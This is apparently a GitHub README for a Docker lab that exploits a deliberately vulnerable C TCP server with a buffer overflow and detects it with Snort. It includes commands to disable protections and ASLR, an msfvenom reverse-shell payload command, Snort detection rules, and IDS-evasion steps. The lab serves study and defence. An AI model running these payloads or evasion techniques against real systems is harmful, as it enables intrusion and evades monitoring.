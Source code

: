 # buffer-overflow-network-attack-lab-ns

A buffer overflow attack in a network context, detectable through an IDS based on Snort

# Exploit Buffer Overflow & IDS Analysis

## Overview

This project consists of implementing an attack scenario on a TCP server with a **buffer overflow vulnerability** in a containerized and isolated environment using Docker.The goal is to understand how this type of attack works, develop a working exploit to obtain **a remote shell** on the machine targeted by the attack, and test an **Intrusion Detection System (IDS)** to identify the attack by monitoring network traffic and subsequently bypass its detection.

The project includes:

- A **vulnerable TCP server** written in C implemented and compiled to make it vulnerable to this type of attack.
- A series of **exploits** that allow the vulnerability to be exploited, bypassing credential checking or obtaining a **reverse shell**.
- An IDS system implemented with Snort with some **IDS rules** for detecting the attack.
- **IDS evasion techniques** to demonstrate the limitations of rule-based systems.
  The scenario has been implemented in a containerised environment in which the entities interact according to the following network scheme:

  ![](img/schema.png)

---

## Project Configuration

It is possible to start the scenario by launching the prepared script start_env.sh with superuser privileges, then it will be necessary to access the server container and launch the server with a startup script (start_server.sh) and operate the exploit execution by connecting via an interactive shell to the attacking client container.

### Description of the scenario

The server contains a buffer overflow vulnerability realised through the use of the strcpy() function of the standard C language library, it is compiled by disabling the security protections to facilitate the exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

Its implementation can be found in the file server/server_vuln.c

In order to allow the attack, it will also be necessary to disable the kernel's security mechanisms designed to prevent this type of attack, i.e. ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Connecting to the server will ask you to enter your credentials to access the system; if you enter the correct credentials, the system responds with an authentication message and returns an ASCII Art.
![](img/access.png)

The attacking client can test the service by first sending a large input using python from the command line:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in this way, if the server does not respond it will mean that it has crashed, this not only sets up as a Denial-of-Service attack, but is a clear indication of the possibility of a failure to check the input sent by the user exposing the server to a Buffer Overflow vulnerability.

By proceeding incrementally, however, it is possible to exploit the buffer overflow vulnerability and by providing an input of the right size, it will be possible to override the return parameter of the authentication function with a value other than 0 and pass the credential check while not knowing the credentials. This attack has been implemented and can be found in the file **exploit_auth_result.py**.

In order to carry out a more structured attack, it is necessary to calculate the offset of the input after which the **Extended Instruction Pointer**, a memory cell that contains the address of the calling function, is overwritten in order to return control.
This was done using the gdb debugger and the tools of the **Metasploit Framework (msf-pattern_create and msf-pattern_offset)** to obtain this information.
Next, a payload was prepared containing code to be injected for opening a reverse TCP shell on the target machine towards the attacking machine via the Metasploit Framework's msfvenom tool using the command:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true -f python
```

the same has been concatenated with padding to fill the stack up to the EIP, a memory address to overwrite the EIP with the address of a cell containing our injected code, a set of NOP slide instructions and the actual generated payload. By launching the exploit and causing the attacking client to listen on the specified port we will obtain a remote shell of the now compromised target machine.
![](img/shell.png)

## IDS Configuration and Attack Detection

The attack detection system was implemented with **Snort**, configured to monitor the traffic between client and server with custom rules for detecting possible attacks on our internal network. Rules were defined to detect the buffer overflow attack by analysing characteristic patterns in the payload sent by the attacker.

### IDS Rules for Detection

Below are the rules implemented in Snort to identify the exploit attempt and any subsequent countermeasures by the attacker, defining an escalation of attack techniques and countermeasures that were implemented and analysed in this paper.

#### Detecting Repeated Sequences (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow";
 pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Countermeasure

The rule can however generate false positives and is easily bypassed with random sequences of characters for padding.

#### Signature Detection Associated with Running /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Countermeasure

Using the Shitaka Ga Nai encoding offered by msfvenom we can easily bypass the check

#### Signature detection associated with the Shitaka Ga Nai decoder (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classstype:attempted-admin; sid:1000004; rev:1;)
```

##### Countermeasure

Using TCP fragmentation we can prevent the ids, which by default checks for signatures associated with rules in the individual packet, to fragment the payload and bypass the check

#### Configuring Snort to allow the IDS to reconstruct TCP flows

Configuring the snort.conf file to enable the stream5_tcp preprocessor to parse the content sent in the TCP flow by reconstructing the sent fragments.
